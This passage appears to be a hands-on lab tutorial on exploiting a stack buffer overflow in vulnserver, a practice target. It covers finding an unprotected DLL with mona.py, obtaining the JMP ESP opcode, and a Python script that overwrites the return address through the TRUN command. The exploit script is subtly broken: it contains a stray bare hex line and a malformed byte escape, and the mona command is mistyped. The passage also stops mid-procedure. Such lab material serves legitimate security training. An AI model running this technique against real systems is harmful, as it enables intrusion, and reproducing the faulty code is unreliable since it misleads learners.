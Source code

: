 What we are saying in finding the right module is that we are looking for a DLL or something similar inside of a program that has no memory protection.

### Practicals

- On your windows machine go to your browser and download this [file](https://github.com/corelan/mona/blob/master/mona.py)
- Copy the file to this location `C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands` and save it
- Now open immunity debugger and attach vulnserver
- On the little command bar down immunity debugger type in `!mona modules` and you should a pop-up with green text over dark screen

![](https://i.imgur.com/9Iohr5p.png)

![](https://i.imgur.com/19zh7e6.png)

- What we are looking for are rows with the `False` statement all through and `.dll` (keep this information for now)

![](https://i.imgur.com/QR7wUnD.png)

- The next thing to do is to find the **hex code equivalent of a jump** , to do this:
	- Goto your kali terminal and locate `nasm_shell.rb`
	- Copy the output and paste on your terminal, then click enter

![](https://i.imgur.com/pzDMUSn.png)

- What we are trying to do is convert assembly language into hex code, type in `JMP ESP` on your terminal which is a jump command

![](https://i.imgur.com/gatZgbH.png)

So the hex code equivalent of `JMP ESP` is `FFE4` 

- We will go back to our immunity debugger and type in this command `!mona find -s "x\ff\e4" -m essfunc.dll` , make sure there is a "\x" followed by two pairs of hex in other to separate the hex in `"\xff\xe4"` and also the major reason why we are using **essfunc.dll** is because that is the program that has the False statement all through in a row , Now click enter

![](https://i.imgur.com/2iJD21A.png)

The highlighted box result is what we are more interested in, so go back to your terminal and exit the nasm_shell.rb  , Now copy this python code and save it

```python
#!/usr/bin/python
 
import sys, socket

625011af

# replace 2003 with the offset you got 
shellcode = "A" * 2003 + "\xaf\x11\x50\62"

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```

- First of all if you notice in this script we have a standalone hex which is `625011af` gotten from the first result in the highlighted box we mentioned earlier and as you can se down the image below `0x` was stripped off
![](https://i.imgur.com/KvpK6R7.png)

- then the line `shellcode = "A" * 2003 + "\xaf\x11\x50\62"` in which A is sent 2003 times with the TRUN command and the `"\xaf\x11\x50\62"` is still the number we had but starting from the back with \x (because of some x86 architecture) 

Now navigate back to immunity debugger and minimize the tab and maximize it to clear the command output center



